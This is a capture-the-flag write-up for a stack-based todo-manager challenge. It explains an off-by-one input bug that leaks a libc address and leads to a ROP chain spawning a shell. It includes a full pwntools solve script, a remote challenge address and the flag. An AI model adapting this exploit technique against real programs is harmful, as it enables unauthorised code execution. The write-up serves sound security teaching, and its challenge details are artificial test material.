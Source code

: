 # Todo

Author: `Carixo`

---

## Introduction
This challenge ships a stack-based todo manager that stores up to 32 notes inside a single `TodoList` structure that lives on `main`'s stack.

Remember to patch the binary to use the correct libc when debugging locally. This can be done using [pwninit](github.com/io12/pwninit)

## Binary Protections
- `Full RELRO`, `NX`, and `PIE` are enabled
- There is **no** `stack canary`

## Off-by-One Length Corruption

All user input funnels through `getInput`, which intends to stop reading after `size` bytes:

```c
void getInput(String *s, ssize_t size) {
    if (!s) return;
    for (int i = 0; i <= size; i++) {
        s->length = i;
        ssize_t n = read(STDIN_FILENO, s->str + i, 1);
        if (n <= 0 || s->str[i] == '\n') return;
    }
}
```

The important detail is that the loop condition is `i <= size`, so we write one byte past the `String.str` array (`MAX_STRING_LENGTH == 128`) and into the `length`.  

When we add a todo with 128 bytes followed by `0xff`, the struct stored in `TodoList.todos[idx]` now has:
- `str`: 128 bytes we control
- `length`: `0x00000000000000ff`

## Leaking Libc

`TodoList list` is allocated on `main`'s stack. Printing a todo uses `write(1, s->str, s->length)`, so the corrupted length lets us read 255 bytes starting from our string. For the last todo (index 31) this read walks:
1. Our string buffer (128 bytes)
2. The struct's `length` and the `TodoList.count` field
3. The `choice` variable in the `main` function
4. `main`'s saved frame pointer and, crucially, the saved return address (`__libc_start_call_main+122`)

By filling the list and then printing the final entry, we recover the return address, subtract the known offset, and obtain the libc base.

## From Edit to ROP

`editTodoItem` creates a new `String` with the same length as the original `String` in `list->todos[idx]`. `getInput` is then called on `edited`.

```c
String edited = {0};
edited.length = list->todos[idx].length;  // user-controlled 0xff
getInput(&edited, edited.length);         // overflows the stack frame
list->todos[idx] = edited;
```

With the length set to 0xff, `getInput` writes well beyond `edited.str`, overflowing the stack all the way to the stored return address. We craft the payload so that:
- Bytes `0x88–0x8f` (offset 136) rewrite the `idx` variable to a valid index (e.g. `20`), ensuring the concluding `list->todos[idx] = edited;` still works and doesn't segfault.
- Bytes `0xa8+` (offset 168) hold the ROP chain calling `system("/bin/sh")`.

When the function returns, execution pivots into `system("/bin/sh")`, giving us an interactive shell.

## Exploit Walkthrough

1. Spawn the process/remote and add 32 todos containing `b"A"*128 + b"\xff"`, corrupting every stored length to `0xff`.
2. Print the last entry; parse the 255-byte leak and recover the pointer to `__libc_start_call_main+122`, yielding the libc base.
3. Build a ROP chain (`ret; system("/bin/sh")`) using the given libc.
4. Use the edit menu and send the overflow payload:
   - Padding up to offset 136
   - `p64(idx)` to have a working index when copying the `String`
   - Padding up to offset 168, followed by the ROP chain
5. Drop into an interactive shell and read the flag.

## Solve Script

```py
from pwn import *

con = "10.212.173.64 32209"

host, port = con.replace(" ", ":").split(":")

ssl = False

binary = './todo_patched'

gdbscript = '''
    b *editTodoItem
    c
'''

elf  = context.binary = ELF(binary)
libc = context.binary.libc
context.terminal = ['tmux', 'splitw', '-h']



# utils
u64 = lambda d: struct.unpack("<Q", d.ljust(8, b"\0"))[0]
u32 = lambda d: struct.unpack("<I", d.ljust(4, b"\0"))[0]
u16 = lambda d: struct.unpack("<H", d.ljust(2, b"\0"))[0]

# credits to spwn by @chino
ru         = lambda *x, **y: p.recvuntil(*x, **y, drop=True)
rl         = lambda *x, **y: p.recvline(*x, **y, keepends=False)
rc         = lambda *x, **y: p.recv(*x, **y)
sla        = lambda *x, **y: p.sendlineafter(*x, **y)
sa         = lambda *x, **y: p.sendafter(*x, **y)
sl         = lambda *x, **y: p.sendline(*x, **y)
sn         = lambda *x, **y: p.send(*x, **y)
logbase    = lambda: log.info("libc base = %#x" % libc.address)
logleak    = lambda name, val: log.info(name+" = %#x" % val)
ls         = lambda x: log.success(x)
lss        = lambda x: ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))
one_gadget = lambda: [int(i) + libc.address for i in subprocess.check_output(['one_gadget', '--raw', '-l1', libc.path]).decode().split(' ')]

# exit_handler stuff
fs_decrypt = lambda addr, key: ror(addr, 0x11) ^ key
fs_encrypt = lambda addr, key: rol(addr ^ key, 0x11)


# heap stuff
prot_ptr = lambda pos, ptr: (pos >> 12) ^ ptr
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val


def start(argv=[], *a, **kw):
    if args.GDB: return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: return remote(host, port, ssl=ssl)
    else: return process([elf.path] + argv, *a, **kw)


def addTodo(todo):
    sla(b"choice: ", b"0")
    sa(b": ", todo)

def printTodoItem(index):
    sla(b"choice: ", b"1")
    sla(b": ", str(index).encode())
    ru(b": ")
    return rl()

def editTodoItem(todo, index):
    sla(b"choice: ", b"3")
    sla(b": ", str(index).encode())
    sla(b": ", todo)

p = start()
for i in range(32):
    addTodo(b"A"*128 + b"\xff")
todo = printTodoItem(31)
leak = [u64(todo[i:i+8]) for i in range(0, len(todo), 8)]
libc.address = leak[20] - (libc.sym.__libc_start_call_main+122)
logbase()

rop = ROP(libc)
rop.raw("A"*128) # fill buffer
rop.raw("B"*8) # length
# we are overflowing index as well, so we must make sure it is a "valid" index so that the copy can happen without issues
rop.raw(20)
rop.raw("A"*24) # extra padding
# ret to align stack so it's multiple of 16 (16 byte alignment)
rop.raw(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\x00")))

editTodoItem(rop.chain(), 0)

p.interactive()
```

## Flag

`flag{ad7c9b9ad75b4a6ef992f252c882568f}`
